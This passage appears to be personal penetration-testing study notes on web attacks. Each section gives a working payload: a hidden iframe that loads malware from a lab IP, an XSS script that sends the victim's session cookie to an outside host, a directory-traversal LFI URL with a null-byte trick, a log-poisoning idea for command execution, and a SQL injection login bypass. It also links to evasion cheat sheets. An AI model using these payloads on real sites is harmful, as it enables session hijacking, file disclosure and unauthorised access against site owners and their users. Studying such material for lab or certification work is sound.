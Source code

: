 - Create invisable iframe to run a bad site
`<iframe SRC="http://192.168.54.5:81/malware" height="0" width="0"></iframe>`

[XSS Filter Evasion Cheat Sheet - OWASP](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)


#### Session cookie stealing
the code below will collect the php session cookie from the clinet browser and send a request to a malitious URL to collect the cookie

```
<script>
new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;
</script>
```

#### Local files inclusion (LFI)

Un checked variables that directly reference files in the file system and be used to traverse the local file system

`http://10.11.16.115/addguestbook.php?name=blah&comment=sucker&LANG=../../../../../../windows/system32/drivers/etc/hosts%00`

you can use `%00` to terminate the string to block any suffixes that maybe appended

you can send raw php commands to the apache server that will be written to the access log and reading the access log will execute those php commands running arbitrary commands on the server.

##### Log file 

#### Remote file inclusion (RFI)

simlar to LFI only uses a remote URL to pull in the PHP code

## SQL injection

[From SQL Injection to WebShell \| RSA Link](https://community.rsa.com/community/products/netwitness/blog/2017/04/10/from-sql-injection-to-webshell)
[Anatomy of an attack: Gaining Reverse Shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
[Pentesterlab — From SQL Injection to Shell — Walkthrough](https://medium.com/@Kan1shka9/pentesterlab-from-sql-injection-to-shell-walkthrough-7b70cd540bc8)
[SQL Injection Attacks - SQL Injection](http://www.sqlinjection.net/category/attacks/)
[](https://defcon.org/images/defcon-17/dc-17-presentations/defcon-17-joseph_mccray-adv_sql_injection.pdf)
[SQL Injection \| pentestmonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
[MSSQL Injection Cheat Sheet \| pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)


`select * from users where name='wronguser' or 1=1 LIMIT 1;# and password='wrongpass';`

`wronguser' or 1=1 LIMIT 1;#` is entered in the username field to inject those commands into the DB query returning a true result bypassing normal authentication.
